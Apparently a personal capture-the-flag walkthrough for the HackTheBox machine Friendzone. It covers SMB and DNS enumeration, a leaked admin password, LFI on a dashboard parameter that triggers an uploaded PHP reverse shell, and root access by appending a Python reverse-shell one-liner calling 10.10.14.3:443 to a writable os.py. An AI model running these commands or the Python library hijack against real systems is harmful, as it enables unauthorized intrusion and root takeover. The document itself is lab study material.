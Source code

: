 **Ping**
![[Pasted image 20240704130949.png]]

**Nmap Scans**
```
mapit 10.10.10.123
```

Nmap Default Scan
![[Pasted image 20240704130959.png]]

Nmap Service and Script Scan
![[Pasted image 20240704131220.png]]
![[Pasted image 20240704131247.png]]
![[Pasted image 20240704131315.png]]

Nmap All port Scan
![[Pasted image 20240704131330.png]]

On Port 80 http://10.10.10.123
![[Pasted image 20240704131542.png]]

Smb Enumeration using Smbclient
```
smbclient -U '' -L \\\\10.10.10.123\\\\
```
![[Pasted image 20240704132217.png]]

if you can't access the share, play with slashes
```
smbclient \\\\10.10.10.123\\Development\\
```
![[Pasted image 20240704132254.png]]
Nothing in Development

Can't get cmd for Files

Share general
```
smbclient \\\\10.10.10.123\\general\\
```
![[Pasted image 20240704132408.png]]

Will analyse the file creds.txt
![[Pasted image 20240704132507.png]]
**admin:WORKWORKHhallelujah@#**

Will try this with ftp first
![[Pasted image 20240704132613.png]]
Didn't Work...!

Gobuster Scan
```
gobuster dir -u http://10.10.10.123 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240704132641.png]]
We can see something interesting 

On http://10.10.10.123/robots.txt
![[Pasted image 20240704132740.png]]
hahahahahaha....:)

On http://10.10.10.123/wordpress
![[Pasted image 20240704135220.png]]
nothing here as well

But there is dns Port 53 is open, will find is there anymore domain names are there, because we have password for admin , we don't know where to use it.

Use this link for dns Enumeration:https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns

We can already see on nmap Scan, there is a domain name friendzone.red, will add this to our hosts file 
![[Pasted image 20240704140854.png]]
![[Pasted image 20240704140914.png]]

Will use dig to dig DNS
```
dig axfr @10.10.10.123 friendzone.red
```
![[Pasted image 20240704140929.png]]
Now we have lot of Domain names

Added all newly found domain names
![[Pasted image 20240704141032.png]]

On https://friendzone.red/
![[Pasted image 20240704141102.png]]

On https://administrator1.friendzone.red/
![[Pasted image 20240704141215.png]]

After login, it say's visit /dashboard.php
![[Pasted image 20240704141302.png]]
https://administrator1.friendzone.red/dashboard.php
![[Pasted image 20240704141409.png]]

On https://uploads.friendzone.red/
![[Pasted image 20240704141524.png]]

Nothing on hr
![[Pasted image 20240704141614.png]]

Uploaded a simple jpg file
![[Pasted image 20240704141726.png]]
![[Pasted image 20240704141715.png]]

Now will follow this
![[Pasted image 20240704141847.png]]


Will jump to Initial foothold....!

Will use the default 
https://administrator1.friendzone.red/dashboard.php?%20image_id=a.jpg&pagename=timestamp
![[Pasted image 20240704145305.png]]
I think pagename is vulnerable to LFI

We have already seen that the smb shares
![[Pasted image 20240704145438.png]]
So there might be chances for other two shares are in /etc

Will check that..!


Will put php reverse shell
![[Pasted image 20240704145835.png]]
Will trigger rev.php

It worked, but without extension https://administrator1.friendzone.red/dashboard.php?%2520image_id=a.jpg&pagename=/etc/Development/rev
![[Pasted image 20240704150013.png]]

Will check our listener
![[Pasted image 20240704150031.png]]

Upgraded my shell using python
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240704150253.png]]


**User.txt**
![[Pasted image 20240704150158.png]]



Will Jump to Privilege Escalation.....!

In have launched pspy and found this
![[Pasted image 20240704151846.png]]
reporter.py is run by root periodically

Will check that
![[Pasted image 20240704152046.png]]
It imports OS, I have already seen os.py while running linpeas.sh

![[Pasted image 20240704152149.png]]
So it is writable

Ok then will repalce the os.py with our reverse shell Oneliner
![[Pasted image 20240704152254.png]]

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' >> os.py
```
![[Pasted image 20240704153430.png]]
Added this at the end

And waited for shell as root and got it
![[Pasted image 20240704153515.png]]

**Root.txt**
![[Pasted image 20240704153605.png]]




Done with Friendzone....:)
